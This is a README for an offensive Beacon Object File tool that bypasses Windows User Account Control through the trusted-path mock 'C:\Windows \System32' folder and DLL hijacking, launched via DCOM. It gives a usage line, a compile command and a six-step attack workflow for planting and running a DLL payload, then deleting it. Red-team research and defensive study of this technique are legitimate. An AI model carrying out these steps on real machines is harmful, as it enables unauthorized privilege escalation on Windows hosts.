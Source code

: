 # BOF - Trusted Path UAC Bypass
Beacon object file implementation for trusted path UAC bypass. The target executable will be called without involving "cmd.exe" by using DCOM object.

Technical details:

https://www.wietzebeukema.nl/blog/hijacking-dlls-in-windows

**Usage**

`Example: bof-trustedpath-uacbypass ComputerFaults.exe /root/edputils.dll`

**Compile**

`make`

**Execution**
```
beacon> help bof-trustedpath-uacbypass
====================Trusted Path UAC Bypass BOF Workflow=======================
Step 1: Upload the DLL payload to "C:\Windows\Tasks"
Step 2: Create a new folder called "C:\Windows \System32"
Step 3: Copy desired executable to "C:\Windows \System32"
Step 4: Copy the DLL payload to "C:\Windows \System32"
Step 5: Use DCOM to execute "C:\\Windows \\System32\\<desired executable>"
Step 6: Delete the DLL payload on "C:\\Windows\\Tasks"
================================================================================

Example: bof-trustedpath-uacbypass ComputerFaults.exe /root/edputils.dll
```

![HowTo](https://github.com/netero1010/TrustedPath-UACBypass-BOF/raw/main/execution.png)

**Credit**

 @Wietze for excellent research by
https://www.wietzebeukema.nl/blog/hijacking-dlls-in-windows

@Yas_o_h for the awesome DCOM BOF implementation

